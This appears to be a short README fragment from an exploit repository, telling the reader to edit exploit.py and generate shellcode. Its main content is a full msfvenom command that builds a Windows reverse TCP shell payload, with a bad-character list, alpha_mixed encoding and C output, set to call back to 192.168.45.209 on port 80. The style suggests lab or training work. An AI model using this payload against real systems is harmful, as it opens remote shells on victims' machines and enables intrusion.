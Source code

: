 1. Edit exploit.py in 43 line to 87 
2. make
   ```
   msfvenom -p windows/shell_reverse_tcp -b  "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.45.209 LPORT=80 -e x86/alpha_mixed -f c
   ```
